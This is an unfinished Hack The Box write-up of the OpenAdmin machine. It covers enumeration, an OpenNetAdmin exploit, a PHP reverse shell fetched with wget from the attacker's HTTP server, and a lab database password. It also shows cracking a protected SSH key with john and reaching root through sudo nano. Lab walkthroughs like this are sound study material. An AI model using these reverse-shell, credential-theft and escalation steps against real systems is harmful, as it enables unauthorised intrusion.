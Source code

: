 
# Work in progress

![OpenAdmin](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ENXDIZYX0AAIur8.jpg)


## Enumeration

Start off with a detailed nmap scan:

![nmap](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nmap.png)

Next lets navigate to the webserver in our browser to verify that this in fact the apache default page:

```
http://10.10.10.171/
```
![webserver]

As expexted we get the apache default page.  Let's enumerate futher using gobuster:
```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x html,php,txt,asp,aspx -u http://10.10.10.171
```
![gobuster](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/gobuster.png)

Let's look at the music page:

Music:

![music](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/music.png)

I clicked 'login' and it sent me to this page http://10.10.10.171/ona/:

![ona](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona.png)

Looks like the web appliaction that is running is out of date.  Now click the "ONA" and "About":

![about](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona_about.png)


Lets see if there are any vulnerabilities for OpenNetAdmin (ONA):

![searchsploit](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/searchsploit.png)

## Initial Foothold

After looking at the proof of concept found in exploitdb, we just need to edit the URL to point to the ONA web application:

![poc]()

Execute the bash script with the changes and we get a limited shell on the machine:

![shell]()

We are dropped in the /opt/www/ona directory, which is the root for ONA

## Pivoting to User 1

We cannot spawn a tty shell from here, so lets see if we can upload and execute a php-reverse-shell using the following commands:

```
# on our attacking machine
python -m SimpleHTTPServer

# on the target
wget http://10.10.14.152:8000/php-reverse-shell.php

# on either machine, ensure that you have a netcat listener before executing this
curl http://10.10.10.171/ona/php-reverse-shell.php
```

![phpshell]()

I tried to access the user.txt file in the home directories of both users but was denied:

![userdeny]()

After looking through the /var/www/ona directory (linked to /opt/ona/www), I found a database configuration file with a password:

![dbfile]()

Lets try to ssh with the credentials jimmy:n1nj4W4rri0R!:

![jimmy_shell]()

## Pivoting to User 2

Success!  But there is no user.txt file in jimmy's home directory:

![jimmyhome]()

Jimmy cannot sudo on this device or access joanna's home directory.  Looking through the webroot /var/www I found an interesting directory called internal:

![internal]()

Let's look at main.php:

![main]()

So if we connect to this webserver, we should receive the private key (id_rsa) for joanna which we can then use to login.  Lets see if the we are listening on port 80:

![netstat]()

The target is not listening on port 80, but is listening on port 52846, so lets try to connect to that to retrieve the private key:

```
curl http://127.0.0.1:52846/main.php
```
![rsa]()

We got the private key, but the message from main.php indicates that this private key is password protected, so we will need to use ssh2john (link) and john to crack the password:

Generate a crackable hash with ssh2john:

```
python /usr/share/john/ssh2john.py id_rsa > crack.txt
```
Now crack it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```
![john]()

The password for id_rsa is bloodninjas, which goes along with the hint of "ninja" password we saw in the id_rsa.  Now lets try to login as joanna using the private key:

![joanna_shell]()

## User File 

![userfile]()

## Privilege Escalation

Start by checking if joanna is allowed to run any commands with sudo:

![sudol]()

Looks like we can open the file priv using nano with root privilieges:
```
Sudo /bin/nano /opt/priv 
```
There is a native ability in nano to read (CTRL+R) any file in the file system that you specify.  Lets try to read the root.txt file:

![nanoroot]()

## Root File 

![rootfile]()
